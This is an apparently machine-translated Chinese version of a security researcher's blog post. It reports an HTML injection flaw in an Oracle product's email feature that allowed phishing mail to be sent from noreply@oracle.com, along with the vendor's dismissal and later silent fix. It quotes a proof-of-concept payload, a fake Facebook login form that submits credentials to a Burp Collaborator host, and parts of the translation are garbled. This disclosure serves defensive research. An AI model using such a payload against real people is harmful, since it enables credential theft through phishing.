



# 如果甲骨文的邮件服务器把这个发给你，你会怎么做？

> 原文：<https://infosecwriteups.com/what-would-you-do-if-oracles-mailing-server-sent-you-this-bc275b1bf967?source=collection_archive---------4----------------------->

## 网络钓鱼通过。HTML 注入！

这篇博客讲述了一个 Oracle 产品中的弱输入验证案例如何让我通过向世界上的任何人发送钓鱼邮件。甲骨文的邮件服务器。我觉得甲骨文对这一发现的回应会引起许多安全研究人员的共鸣

## **背景**

易受攻击的应用程序捕获面向用户的指标，如利用率和日志，可以查看和导出这些指标以供进一步处理。作为其他功能的一部分，该应用程序允许其用户通过电子邮件将这些指标发送到用户定义的电子邮件地址。

## 漏洞

像任何其他电子邮件功能一样，该应用程序允许用户在“收件人”输入框中输入电子邮件地址，以及“主题”和“正文”。我向我的个人电子邮件 ID 发送了一封测试邮件，在“正文”字段中输入了以下内容。

> # 甲骨文报告

在我从应用程序中触发电子邮件后不久，我收到了一封带有上述输入的电子邮件，**将**解析为 HTML 代码。

请注意，该电子邮件是由 Oracle 的一个邮件服务器触发的。这证实了应用程序没有验证用户输入，从而允许任意 HTML 代码作为电子邮件正文的一部分呈现；典型的 HTML 注入。

为了展示这种漏洞如何被利用来执行社会工程攻击(如鱼叉式网络钓鱼)的概念证明，我制作了以下有效载荷并触发了另一封电子邮件。

> *<html><head></head><body><h1>准备好大吃一惊吧！使用脸书登录以了解更多信息！</h1><form action = " http://test . burpcollaborator . net " method = " get " target = " _ blank "><label for = " Email ID ">Email ID</label>input type = " text " ID = " Email ID " name = " Email ID ">  <label for = " Password "【T33*

几分钟后，不出所料，我收到了一封来自 noreply@oracle.com 的电子邮件，邮件正文中包含了我的 HTML 代码。现在使用这一功能，我可以向世界上的任何人发送这样的电子邮件，并等待不知情的受害者对电子邮件采取行动。

一旦不知情的受害者输入他们的有效凭据并单击“登录”按钮，这些凭据将被攻击者的服务器捕获(在这种情况下，我使用 Burp Collaborator)，从而获得对受害者社交媒体帐户凭据的访问权限(实际上是任何内容，取决于电子邮件正文)。

## 影响

该应用程序具有注册功能，允许用户创建帐户。不仅如此，默认情况下，新创建的用户还具有管理员角色(唯一可以访问电子邮件功能的角色)。用户可以通过许多技术(如 Google Dorks)获得电子邮件转储，并向任何这些用户发送钓鱼电子邮件。简而言之，任何人都可以创建一个帐户并向任何人发送带有合法电子邮件内容的网络钓鱼电子邮件，因为该电子邮件是从 Oracle 邮件服务器 noreply@oracle.com 接收的

## 结果

我最终向甲骨文报告了这个漏洞。他们驳回了这个问题，说他们不认为这是一个风险，这是一个预期的功能，并按照设计工作。关于它的影响，来回发送了多封电子邮件，但该团队坚持自己的立场，拒绝了这一发现。

几个月后，我发现他们通过实现输出编码解决了这个问题，不再让用户输入未经净化就被解析。

应用程序不再解析电子邮件正文。

当被问及为什么他们拒绝了我的报告(因为没有风险)，但后来修复了这个问题时，他们提到这是作为功能升级修复的，而不是因为他们认为这是一个漏洞。无论如何，我已经在好几个场合看到过这样的回应和沉默的补丁，我不认为这种心态会很快消失。

## 非常感谢博客上的反馈和见解。欢迎发表评论或在推特上联系我。